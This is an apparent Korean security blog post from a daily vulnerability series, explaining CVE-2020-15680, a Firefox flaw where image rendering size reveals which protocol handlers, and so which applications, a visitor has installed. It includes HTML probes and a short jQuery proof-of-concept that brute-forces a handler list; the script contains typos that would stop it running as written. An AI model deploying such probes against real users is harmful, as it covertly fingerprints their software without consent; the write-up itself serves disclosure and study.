 ```yaml
---

title: "[하루한줄] CVE-2020-15680 : protocol handler infomation disclosure"
author: Fabu1ous

tags: [Fabu1ous, information disclosure, cve]

categories: [1day1line]

date: 2020-12-05 18:00:00

cc: true

index_img: /img/1day1line.png
---
```




## URL

[leaking browser url/protocol handler](https://www.fortinet.com/blog/threat-research/leaking-browser-url-protocol-handlers?utm_source=feedburner&utm_medium=feed&utm_campaign=Feed%3A+fortinet%2Fblog%2Fthreat-research+%28Fortinet+Threat+Research+Blog%29)

## Target

Firebox 78.01



## Explain

Firefox에서 protocol handler를 이용한 information disclosure 취약점이 발견되었습니다. Protocol Handler는 응용 프로그램이 자신의 URI scheme를 등록할 수 있는 매커니즘으로 이를 통해 프로세스를 실행할 수 있습니다. 브라우저가 "웹사이트에서 이 어플리케이션을 열려고 합니다."라는 알림을 띄운다면 Protocol Handler URI를 사용해 프로세스를 실행한 것 입니다.  

Firefox가 이미지 태그의 소스를 렌더링 할 때, protocol handler의 존재 여부에 따라 렌더링 결과가 다릅니다. 해커는 이점을 악용해 원격으로 victim에 설치된 프로그램 리스트를 알 수 있습니다.

```html
<img src="존재하는ProtocolHandler://abc">
```

victim에 존재하는 protocol handler를 이미지 src에 넣으면 broken image에 대한 기본 설정에 따라 Element의 size가 24x24로 렌더링 됩니다.

```HTML
<img src="존재하지않는ProtocolHandler://abc">
```

반면, 존재하지 않는 protocol handler를 이미지 src에 넣으면 Element의 size는 0x0으로 설정됩니다.



따라서 해커는 간단한 JS script로 Element의 width를 검사해 Protocol Handler의 존재 여부를 확인하는 brute force 공격을 할 수 있습니다.

```javascript
known_handlers = [
  ...
]
  
for (var i = knwon_handers.length -1; i>=0; i--){
  handler_id = 'handler_' + i
  $('body').append('<img id ="' + handler_id + '"src="'+known_handers[i]
  + '://192.168.133.142/"></img>')
  if($('#' + handler_id).css('width') == "24px"){
    $('<p>Handler ' + known_handlers[i] + 'Exists</p>').appendTo('#logbox');
  }
  else{
    $('<p>Hander ' + known_handers[i] + 'Does not exists</p>').appendTo('#logbox');
  }
  
  $('#' + hander_id).remove()
}
```





